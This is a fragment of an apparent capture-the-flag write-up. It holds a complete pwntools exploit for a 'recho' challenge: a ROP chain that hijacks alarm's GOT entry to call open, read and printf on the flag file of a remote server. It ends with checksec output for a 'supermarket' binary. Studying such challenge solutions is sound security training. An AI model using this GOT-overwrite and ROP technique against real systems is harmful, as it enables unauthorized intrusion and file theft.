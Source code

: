 ```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

local=0
#gdb.attach(p)
if local:
	p=process('./recho')
	elf = ELF('./recho')
else:
	p=remote('220.249.52.133',43279)
	elf = ELF('./recho')
alarm_got=elf.got['alarm']
alarm_plt=elf.plt['alarm']
read_plt=elf.plt['read']
printf_plt=elf.plt['printf']
pop_rdi=0x4008a3
pop_rsi=0x4008a1
pop_rax=0x4006fc
add_rdi=0x40070d
pop_rdx=0x4006fe
main=0x0400791
flag=0x601058
bss=0x601070
#gdb.attach(p)
p.recvuntil('Welcome to Recho server!\n')
p.sendline(str(0x200))
#hack got
payload='a'*0x38+p64(pop_rdi)+p64(alarm_got)+p64(pop_rax)+p64(5)+p64(add_rdi)
#open flag r
payload+=p64(pop_rdi)+p64(flag)+p64(pop_rsi)+p64(0)+p64(0)+p64(pop_rax)+p64(2)+p64(alarm_plt)
#read(3,bss,100)
payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(bss)+p64(0)+p64(pop_rdx)+p64(100)+p64(read_plt)
#printf(flag)
payload+=p64(pop_rdi)+p64(bss)+p64(printf_plt)
payload=payload.ljust(0x200,'\x00')
p.sendline(payload)
p.shutdown('send')
p.interactive()
```

# <span id ="supermarket">supermarket</span>

## checksec

```shell
[*] '/home/giantbranch/Desktop/pwn/supermarket/supermarket'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
